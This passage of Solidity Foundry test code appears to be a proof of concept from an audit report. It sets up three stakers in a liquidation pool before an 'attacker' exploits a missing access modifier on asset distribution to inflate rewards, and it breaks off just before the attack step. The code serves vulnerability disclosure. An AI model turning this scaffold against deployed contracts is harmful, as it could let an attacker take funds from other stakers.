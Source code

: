  - Scenario 2

```solidity
        function test_DistributeAssetsMissingAccessModifierIncreaseRewards() public {
        skip(2 days);
        vm.startPrank(alice);
        vm.deal(alice, 10 ether);
        (address vault, ) = vaultManagerV5Instance.mint();
        address(vault).call{value: 10 ether}("");
        SmartVaultV3 vaultInstance = SmartVaultV3(payable(vault));
        uint256 maxMintable = vaultInstance.maxMintable();
        uint256 amountToMint = maxMintable - 200 ether;
        vaultInstance.mint(alice, amountToMint);
        TST.mint(alice, EURO.balanceOf(alice));
        TST.approve(address(liquidationPool), 1000 ether);
        EURO.approve(address(liquidationPool), 1000 ether);
        liquidationPool.increasePosition(1000 ether, 1000 ether);
        vm.stopPrank();

        vm.startPrank(bob);
        vm.deal(bob, 10 ether);
        (address vaultB, ) = vaultManagerV5Instance.mint();
        address(vaultB).call{value: 10 ether}("");
        SmartVaultV3 vaultInstanceB = SmartVaultV3(payable(vaultB));
        uint256 maxMintableB = vaultInstanceB.maxMintable();
        uint256 amountToMintB = maxMintableB - 200 ether;
        vaultInstanceB.mint(bob, amountToMintB);
        TST.mint(bob, EURO.balanceOf(bob));
        TST.approve(address(liquidationPool), 1000 ether);
        EURO.approve(address(liquidationPool), 1000 ether);
        liquidationPool.increasePosition(1000 ether, 1000 ether);
        vm.stopPrank();

        vm.startPrank(john);
        vm.deal(john, 10 ether);
        (address vaultJ, ) = vaultManagerV5Instance.mint();
        address(vaultJ).call{value: 10 ether}("");
        SmartVaultV3 vaultInstanceJ = SmartVaultV3(payable(vaultJ));
        uint256 maxMintableJ = vaultInstanceJ.maxMintable();
        uint256 amountToMintJ = maxMintableJ - 200 ether;
        vaultInstanceJ.mint(john, amountToMintJ);
        TST.mint(john, EURO.balanceOf(john));
        TST.approve(address(liquidationPool), type(uint256).max);
        EURO.approve(address(liquidationPool), 1000 ether);
        liquidationPool.increasePosition(1000 ether, 1000 ether);
        /// @dev skip 2 days and call increasePosition once more wiht a minimum deposit in order to transfrom the pending stakes to positions
        skip(2 days);
        TST.mint(john, 1);
        liquidationPool.increasePosition(1, 0);
        vm.stopPrank();

        vm.startPrank(attacker);
        console2.log("Positions before attack is performed");
        (, uint256 TSTA, uint256 EUROsA ) = liquidationPool.positions(alice);
        console2.log("Position of Alice: ", TSTA/1e18, EUROsA/1e18);
        (, uint256 TSTB, uint256 EUROsB ) = liquidationPool.positions(bob);
        console2.log("Position of Bob: ", TSTB/1e18, EUROsB/1e18);
        (, uint256 TSTJ, uint256 EUROsJ) = liquidationPool.positions(john);
        console2.log("Position of John: ", TSTJ/1e18, EUROsJ/1e18);
        console2.log("Liquidation Pool contract EURO balance: ", EURO.balanceOf(address(liquidationPool))/1e18);
        (, int256 EurUsdRate,,,) = ClEurUsd.latestRoundData(); 
        (, int256 EthUsdRate,,,) = ClEthUsd.latestRoundData(); 
```